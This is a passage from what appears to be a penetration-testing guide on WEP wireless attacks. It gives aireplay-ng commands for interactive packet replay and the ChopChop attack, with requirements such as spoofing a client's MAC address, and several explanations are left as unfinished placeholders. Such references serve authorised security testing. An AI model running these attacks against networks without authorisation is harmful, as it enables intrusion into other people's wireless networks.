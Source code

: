 //TO EXPLAIN packet replay

```bash
aireplay-ng --interactive -F -r crafted-packet $wlan_interface
```

![](../../.gitbook/assets/carbon-15-.png)

### ChopChop

{% hint style="info" %}
**Tips and requirements**

* An associated state is needed. Testers can either run a [fake authentication attack](wep.md#fake-authentication) or spoof a legitimate client's MAC address with the `-h` option on `aireplay-ng`.
* Connected clients are not needed in this attack \(except if the testers wants one's MAC address to meet the associated state requirement\).

This attack is really useful when no clients are connected to the target access point and when the [fragmentation attack](wep.md#fragmentation) fails.
{% endhint %}

//TO EXPLAIN chopchop /!\ the -h option needs the attacker's MAC address \(or spoofed legitimated client's\)

```bash
aireplay-ng --chopchop -F -b 'TA:RG:ET:BS:SI:DD' -h 'CL:IE:NT:BS:SI:DD' $wlan_interface
```

![](../../.gitbook/assets/carbon-21-.png)
